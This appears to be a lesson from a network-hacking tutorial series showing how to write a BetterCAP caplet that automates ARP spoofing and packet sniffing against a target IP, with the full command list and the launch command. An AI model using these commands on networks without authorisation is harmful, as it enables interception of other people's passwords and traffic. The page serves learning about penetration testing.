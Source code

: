 ```yaml
---
title: Creating a Custom Spoofing Script
type: default
layout: page
child: Cracking
fold: Network Cracking
---
```


In the previous lessons, we learned how to use BetterCAP to discover all the
clients on our same network, run an ARP Spoofing attack to intercept the data
and then sniff data to see the usernames, passwords and everything that's
getting sent over the network. In order to do this, we have to run a lot
of commands, first of all, we had to run `net.probe on` to turn on the
probe module, we had to set the settings for the `arp.spoof` module, turn
it on and turn the sniffing module on.

Every time you want to run an ARP Spoofing attack and spy your targets, you are
going to do all the steps previously mentioned, or if you would like to make
this process automatically, you can create a caplet, which is exactly what I
want to show you in this lesson.

> A caplet is just a text file that contains all the commands that you want to run
> .

To create a caplet, create a text file using the editor of your choice, emacs,
vim, nano, ed, etcetera and let's go through all the commands we had to run to
create our caplet.

The first thing that we had to run, was `net.probe on`, so let's copy that
command and let's paste it in our text file. The next thing that we made, was
to modify the settings of the _arp.spoof_ module, we executed _set
arp.spoof.fullduplex true_, then we set the target(s) IP with the command
_set arp.spoof.targets 192.168.1.7_ (make sure that every time you run this
caplet, you make sure that the target's IP address stays the same), then, we
turned on the _arp.spoof_ module by executing _arp.spoof on_ and finally we also
run the sniffer by doing _net.sniff on_. You caplet file should look like the
following:

```bash
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.1.7
arp.spoof on
net.sniff on
```

Once you have finished pasting the commands, we can now save the file, I will
set mine's name as _arp.cap_.

Once we have finished, all we have to do now, is feed the caplet file to
Bettercap before we start it, so all the commands will be executed
automatically. As we currently don't know how to do this, let's execute
_bettercap --help_ to see all the BetterCAP options.

```bash
Usage of ./bettercap:
  -autostart string
        Comma separated list of modules to auto start. (default "events.stream")
  -caplet string
        Read commands from this file and execute them in the interactive session.
  -cpu-profile file
        Write cpu profile file.
  -debug
        Print debug messages.
  -env-file string
        Load environment variables from this file if found, set to empty to disable environment persistence.
  -eval string
        Run one or more commands separated by ; in the interactive session, used to set variables via command line.
  -gateway-override string
        Use the provided IP address instead of the default gateway. If not specified or invalid, the default gateway will be used.
  -iface string
        Network interface to bind to, if empty the default interface will be auto selected.
  -mem-profile file
        Write memory profile to file.
  -no-colors
        Disable output color effects.
  -no-history
        Disable interactive session history file.
  -silent
        Suppress all logs which are not errors.
  -version
        Print the version and exit.
```

The option we want to use is the _-caplet_ option. So, we are going to execute
BetterCAP like we used to do it, first of all, we do _bettercap_ followed by
_-iface_ to specify the interface that is connected to the target network, in my
case it is _enp1s0_ and now, we are going to append _-caplet_ followed by the
path of the file we created previously. If you saved your file in your home
directory, for example, the command will look like this:

```bash
bettercap -iface enp1s0 -caplet ~/arp.cap
```

Once you execute that command, the modules and the settings specified on the
caplet file will be automatically applied.
